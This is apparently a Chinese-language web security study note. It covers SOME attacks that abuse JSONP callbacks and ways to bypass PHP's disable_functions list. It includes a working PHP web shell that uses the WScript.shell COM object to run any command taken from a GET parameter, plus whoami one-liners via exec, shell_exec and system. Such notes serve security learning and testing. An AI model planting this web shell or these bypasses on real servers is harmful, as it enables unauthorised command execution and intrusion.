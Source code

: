 # Web 安全

**同源方式执行（SOME）攻击**

**原理及危害**

> json可以理解为，用户可以控制输入的一种JS函数。并且这种函数可以跨域访问。这就很恐怖了。比如某些存在父子网页的并且还为做过滤，很有可能你一点击后就会自动执行某些链接，如自动关注，点赞等。

**攻击条件**
> 存在用户可控函数点，读取用户输入执行对应javascript代码（即寻找JSONP点，通常以get方法callback名传入）

**SOME复现**

通过一个大佬写的SOME靶场来练习复现:


### PHP绕过disable_function限制

[ 突破 disable_functions](https://www.anquanke.com/post/id/197745)

为了安全,运维人员会禁用PHP的一些“危险”函数,将其写在php.ini配置文件中,就是我们所说的 `disable_functions` 了。例如：

`passthru,exec,system,chroot,chgrp,chown,shell_exec,proc_open,proc_get_status,popen,ini_alter,ini_restore,dl,openlog,syslog,readlink,symlink,popepassthru,link等`

将这些危险函数全部禁用，我们可以通过观察函数是否执行查看是否存在可利用的函数。


**利用系统组件绕过**

`window com组件(PHP5.4自带)(高版本扩展要自己添加）`

测试：
```php
<?php
$command=$_GET['a'];
$wsh = new COM('WScript.shell'); // 生成一个COM对象　Shell.Application也能
$exec = $wsh->exec("cmd /c".$command); //调用对象方法来执行命令
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
?>
```

**常规绕过**

`常规绕过：exec,shell_exec,system,passthru,popen,proc_open`
将
1. exec
    ```php
    <?phpecho exec('whoami');?>
    ```
2. shell_exec
    ```php
    <?phpecho shell_exec('whoami');?>
    ```
3. system
    ```php
    <?phpsystem('whoami');?>
    ```
